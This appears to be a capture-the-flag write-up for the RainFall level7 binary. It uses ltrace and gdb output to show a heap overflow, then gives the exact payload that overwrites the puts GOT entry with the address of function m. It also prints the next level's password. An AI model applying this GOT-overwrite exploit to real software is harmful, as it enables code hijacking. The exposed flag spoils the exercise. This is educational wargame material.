 Here, we need to call the function `m` to print the content of `.pass`.

With a ltrace with, we got :

>level7@RainFall:~$ ltrace ./level7 `python -c 'print "A" * 100'` yo
>__libc_start_main(0x8048521, 3, 0xbffff684, 0x8048610, 0x8048680 <unfinished ...>
>malloc(8)                                                                                                  = 0x0804a008
>malloc(8)                                                                                                  = 0x0804a018
>malloc(8)                                                                                                  = 0x0804a028
>malloc(8)                                                                                                  = 0x0804a038
>strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                  = 0x0804a018
>strcpy(0x41414141, "yo" <unfinished ...>
>--- SIGSEGV (Segmentation fault) ---
>+++ killed by SIGSEGV +++

There is a segfault because we try to copy the second argument in a strange address.
The `strange address` correspond to the bytes 21-24 of the first argument.

So, if we do the same thing as previously, and put inside a function that will be called later (`puts` for example) the address of `m`. it will call `m` for us.
So we gather the address of `m` with gdb :

```assembly
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.

```

And we find where to put this new found address :

```assembly
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.

```



>level7@RainFall:~$ ./level7 `python -c 'print "AAAA" * 5 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
>5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
>1607353581

```bash
su leve8
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

